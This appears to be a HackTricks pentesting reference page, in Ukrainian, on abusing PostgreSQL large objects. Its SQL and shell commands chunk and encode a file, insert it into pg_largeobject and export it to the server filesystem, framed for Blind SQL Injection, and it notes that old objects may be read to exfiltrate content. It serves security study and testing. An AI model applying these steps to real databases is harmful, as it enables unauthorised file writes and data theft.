 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Великі Об'єкти

PostgreSQL пропонує структуру, відому як **великі об'єкти**, доступну через таблицю `pg_largeobject`, призначену для зберігання великих типів даних, таких як зображення або PDF-документи. Цей підхід є вигіднішим у порівнянні з функцією `COPY TO`, оскільки він дозволяє **експортувати дані назад у файлову систему**, забезпечуючи точну копію оригінального файлу.

Для **зберігання повного файлу** в цій таблиці, об'єкт повинен бути створений у таблиці `pg_largeobject` (ідентифікований за LOID), після чого дані розбиваються на частини, кожна з яких має розмір 2KB, і вставляються в цей об'єкт. Важливо, щоб ці частини мали точно 2KB (з можливим винятком останньої частини), щоб функція експорту працювала правильно.

Щоб **поділити ваші бінарні дані** на частини по 2KB, можна виконати такі команди:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Для кодування кожного файлу в Base64 або Hex можна використовувати такі команди:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Важливо**: При автоматизації цього процесу переконайтеся, що надсилаєте частини по 2 КБ чистих байтів. Файли в шістнадцятковому кодуванні вимагатимуть 4 КБ даних на частину через подвоєння розміру, тоді як файли в кодуванні Base64 слідують формулі `ceil(n / 3) * 4`.

Вміст великих об'єктів можна переглядати для налагодження за допомогою:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Використання `lo_creat` та Base64

Щоб зберегти бінарні дані, спочатку створюється LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
В ситуаціях, що вимагають точного контролю, таких як експлуатація Blind SQL Injection, `lo_create` є переважним для вказівки фіксованого LOID.

Частини даних можна вставити наступним чином:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Щоб експортувати та потенційно видалити великий об'єкт після використання:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Використання `lo_import` та Hex

Функція `lo_import` може бути використана для створення та вказівки LOID для великого об'єкта:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Після створення об'єкта дані вставляються по сторінках, забезпечуючи, щоб кожен шматок не перевищував 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Щоб завершити процес, дані експортуються, а великий об'єкт видаляється:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Обмеження

Зазначено, що **великі об'єкти можуть мати ACL** (Списки контролю доступу), що потенційно обмежує доступ навіть до об'єктів, створених вашим користувачем. Однак старі об'єкти з ліберальними ACL все ще можуть бути доступні для ексфільтрації контенту.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
